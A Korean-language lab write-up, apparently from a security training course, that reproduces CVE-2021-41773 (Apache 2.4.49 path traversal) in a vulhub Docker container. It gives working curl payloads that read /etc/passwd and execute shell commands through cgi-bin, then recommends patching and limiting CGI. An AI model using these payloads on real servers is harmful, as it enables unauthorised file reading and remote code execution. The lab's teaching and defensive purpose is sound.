 # CVE-2021-41773 | Apache HTTP Server 2.4.49 Path Traversal 취약점

> 화이트햇 스쿨 3기 (20반) - [김혜지 (@hyeroro)](https://github.com/hyeroro)

<br/>

## 취약점 개요

- **CVE ID**: CVE-2021-41773
- **취약점 유형**: Path Traversal(경로 탐색)
- **CVSS 점수**: 7.5 (High)
- **영향 받는 버전**: Apache HTTP Server 2.4.49
- **발견 날짜**: 2021년 10월 4일
- **패치 버전**: Apache HTTP Server 2.4.50 또는 이후 버전

이 취약점은 Apache HTTP Server 2.4.49에서 경로 정규화가 제대로 처리되지 않아 발생합니다. 공격자는 URL 경로 탐색 시퀀스를 사용하여 웹 루트 디렉토리 외부의 파일에 접근하거나 CGI 스크립트를 통해 명령을 실행할 수 있습니다.

<br/>

## 환경 구성
### 사용한 도구
- OS: Ubuntu 20.04 LTS
- Docker 버전: 28.0.1
- Docker Compose 버전: v2.33.1-desktop.1

### 명령어
```sh
# vulhub 저장소 클론
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2021-41773

# Docker 컨테이너 실행
docker-compose up -d
```
![setting](./images/setting.png)

<br/>

## PoC 및 결과

### 취약점 원인
Apache HTTP Server 2.4.49에서는 URL 경로 정규화 과정에서 결함이 있어 %2e (URL 인코딩된 점)을 사용한 디렉토리 탐색이 제대로 차단되지 않습니다. 이로 인해 공격자는 서버의 파일 시스템에 있는 임의의 파일에 접근할 수 있습니다.

### 경로 탐색 (Path Traversal) 테스트
/etc/passwd 파일 접근
```bash
curl -v —path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
![PathTraversal2](./images/PathTraversalTest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```
![PathTraversal](./images/PathTraversalTest.png)


### 원격 코드 실행 (RCE) 테스트
```bash
curl -v --data "echo;id" 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```
![RCEtest](./images/RCEtest2.png)

```bash
curl -v "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh" -d "echo Content-Type: text/plain; echo; id"
```
![RCEtest](./images/RCEtest.png)

<br/>

## 결론
  본 분석을 통해 Apache HTTP Server 2.4.49 버전에서 발생하는 CVE-2021-41773 취약점이 심각한 보안 위협임을 확인했습니다. 이 취약점은 경로 정규화 과정의 결함으로 인해 공격자가 URL 인코딩된 .(%2e) 문자를 사용하여 웹 루트 디렉토리 외부의 파일에 접근할 수 있도록 허용합니다.

  실제로 /etc/passwd와 같은 시스템 파일을 읽는 경로 탐색(Path Traversal) 공격이 성공함을 PoC를 통해 확인하였으며, 특히 CGI 스크립트가 활성화된 환경에서는 /bin/sh와 같은 쉘 실행 파일을 통해 임의의 시스템 명령어를 실행할 수 있는 원격 코드 실행(RCE)으로 이어질 수 있음을 입증했습니다. 이는 공격자가 서버의 민감한 정보에 접근하거나 시스템을 완전히 장악할 수 있음을 의미하며, 그 위험성이 매우 높습니다.

  따라서 Apache HTTP Server 2.4.49 버전을 운영 중인 관리자는 즉시 취약점이 해결된 Apache HTTP Server 2.4.50 또는 이후 버전으로 업데이트하는 것이 필수적입니다. 신속한 패치는 해당 취약점을 이용한 공격 시도를 차단하고 시스템의 보안을 강화하는 가장 효과적인 방법입니다. 또한, 웹 서버 설정에서 불필요한 CGI 실행 권한을 제한하고, 중요한 시스템 파일에 대한 접근 제어를 강화하는 등의 추가적인 보안 조치를 고려해야 합니다.
